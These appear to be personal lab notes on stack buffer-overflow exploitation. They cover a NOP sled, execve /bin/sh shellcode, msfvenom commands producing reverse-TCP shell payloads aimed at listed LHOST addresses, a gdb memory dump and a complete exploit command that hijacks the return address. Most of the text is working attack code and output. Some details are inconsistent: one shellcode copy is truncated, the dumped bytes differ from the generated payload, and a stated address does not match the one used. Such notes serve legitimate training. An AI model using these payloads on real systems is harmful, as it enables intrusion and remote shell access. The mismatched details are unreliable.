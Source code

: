 
#### Using shell code

We want to put code in memory and then redirect execution to this memory.

We use a number of nop instructions to make the address of the exploit easier to get to. If we have 30 nops all addresses within these will lead execution to the shell code.

Structure of the input:
`python -c "print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)"`

Example:
`python -c "print('\x90'*30+'\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05'+'\x41'*60+'\xef\xbe\xad\xde')" | ./program`


#### Example shell code

Shell code that opens a basic shell (source THM) (useful if SUID is set)
```
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3
```
28 bytes

The shell code disassembled using r2, commands aaa and then pdf:
![[Images/Pasted image 20240809204245.png]]
<font size=2>A string containing the path to /bin/sh + 0x11 (random extra byte) is put in the RCX registry.<br>
To get rid of the extra 0x11 rcx is first shifted one byte to the left and then to the right.<br>
RCX is then pushed onto the stack.<br>
Other requirements for the syscall (execve) to exectue the path are prepared and then the syscall is made.</font>

#### Generate shell code

`msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>`

`msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"`

`msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.245 lport=443 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"`

`msfvenom --payload 'windows/shell_reverse_tcp' LHOST=10.21.31.111 LPORT=443 --format 'python' --bad-chars '\x00\x0a'`

```sh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.245 lport=443 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"                
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9"
"\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb"
"\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b"
"\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2"
"\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8"
"\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3"
"\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee";
```

Shellcode: 
```
\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee
```

Number of bytes: 95

<font color="yellow">Add 16 or more nops</font> - When the payload in decoded/unpacked it will take more space.

#### Find the execution start address

the position returned by pattern_offset.rb = 2060
a random number of nops = 256
the number of bytes in the payload = 95
32-bit executable gives a 32-bit address = 4 bytes

```sh
run $(python -c 'print "\x55" * (2060 - 256 - 95) + "\x90" * 256 + "\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee" + "\x66" * 4')
```

Afterwards we confirm that it's been entered  into memory in the format we supplied with python.

```sh
(gdb) x/2000xb $esp+2200

0xffffd6b1:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6b9:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6c1:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55
0xffffd6c9:     0x55    0x90    0x90    0x90    0x90    0x90    0x90    0x90  Nops
0xffffd6d1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6d9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6e1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6e9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f1:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6f9:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd701:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd709:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd711:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd719:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd721:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd729:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd731:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd739:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd741:     0x90    0x90    0x90    0x90    0x90    0xbd    0xca    0x92  Shell code
0xffffd749:     0xd0    0xf7    0xdb    0xcd    0xd9    0x74    0x24    0xf4
0xffffd751:     0x5b    0x31    0xc9    0xb1    0x12    0x83    0xc3    0x04
0xffffd759:     0x31    0x6b    0x0e    0x03    0xa1    0x9c    0x32    0x02
0xffffd761:     0x04    0x7a    0x45    0x0e    0x35    0x3f    0xf9    0xbb
0xffffd769:     0xbb    0x36    0x1c    0x8b    0xdd    0x85    0x5f    0x7f
0xffffd771:     0x78    0xa6    0x5f    0x4d    0xfa    0x8f    0xe6    0xb4
0xffffd779:     0x92    0x70    0x19    0x47    0x63    0xe7    0x1b    0x47
0xffffd781:     0x19    0x9e    0x92    0xa6    0x6d    0x06    0xf5    0x79
0xffffd789:     0xde    0x74    0xf6    0xf0    0x01    0xb7    0x79    0x50
0xffffd791:     0xa9    0x26    0x55    0x26    0x41    0xdf    0x86    0xe7
0xffffd799:     0xf3    0x76    0x50    0x14    0xa1    0xdb    0xeb    0x3a
0xffffd7a1:     0xf5    0xd7    0x26    0x3c    0x66    0x66    0x66    0x66  66666666 repersents the spot where the instruction pointer will be restored from
```

We select an address in the middle of out nops, `0xffffd731`, as our start address.

Remember the endianness and reverse the address when adding it to the python:
0xffffcc90
```sh
run $(python -c 'print "\x55" * (2060 - 256 - 95) + "\x90" * 256 + "\xd9\xc3\xba\xaa\xca\x9c\x9b\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x83\xc0\x04\x31\x50\x13\x03\xfa\xd9\x7e\x6e\xcb\x06\x89\x72\x78\xfa\x25\x1f\x7c\x75\x28\x6f\xe6\x48\x2b\x03\xbf\xe2\x13\xe9\xbf\x4a\x15\x08\xd7\x46\xef\xe4\xd2\x3f\xed\xf8\x1d\x7b\x78\x19\xad\x1d\x2b\x8b\x9e\x52\xc8\xa2\xc1\x58\x4f\xe6\x69\x0d\x7f\x74\x01\xb9\x50\x55\xb3\x50\x26\x4a\x61\xf0\xb1\x6c\x35\xfd\x0c\xee" + "\x31\xd7\xff\xff"')
```

Now our shellcode will hopefully be run!
